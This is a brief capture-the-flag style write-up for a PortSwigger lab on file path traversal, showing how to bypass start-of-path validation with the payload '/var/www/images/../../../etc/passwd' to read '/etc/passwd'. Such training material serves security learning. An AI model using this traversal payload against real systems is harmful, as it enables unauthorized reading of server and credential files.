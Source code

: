 # File path traversal, validation of start of path
- Name: File path traversal, validation of start of path
- URL: https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path
- Level: Medium Time: 2 min
- Objective: retrieve the contents of the `/etc/passwd` file.
---------------------------------------------------------------------------------


## Solution
1. Find an image.
2. We usually add `../../../etc/passwd` right away but in here it will not work because it will check for the start of the file path.
3. Instead we will add `/var/www/images/` before the `../../../etc/passwd` like the next: `/image?filename=/var/www/images/../../../etc/passwd`
